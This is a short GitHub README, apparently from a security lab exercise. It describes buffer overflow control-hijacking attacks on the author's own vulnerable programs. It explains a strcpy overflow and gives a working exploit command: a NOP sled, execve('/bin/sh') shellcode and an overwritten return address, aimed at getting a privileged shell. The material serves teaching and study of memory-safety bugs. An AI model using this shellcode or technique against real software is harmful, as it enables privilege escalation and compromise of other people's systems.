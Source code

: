 # Control Hijacking Attack
In this repository, I implemented some buffer overflow controlling hijacking attacks which all are described down below. You can find Executable Linkable Formats(ELF) of these
programs named "prog_vuln#" and corresponding inputs for each of them named "expoit#.sh" which were designed to overflow the buffers of program and rewrite some specific addresses
of the memory to change control flow of the program which will result in getting shell with sudo privileged.
## prog_vuln1
To perform this attack I used vulnerability of strcpy() function which does not check the length of strings before copy. As a result it will be possible to write some specific 
addresses in the stack and change the pointer to the start of shell code. You can see related commands in the following.
```
$(python -c 'print("\x90"*63 +
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x0
8\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "w"
*500 + "\x90\xf0\xff\xbf")')
```

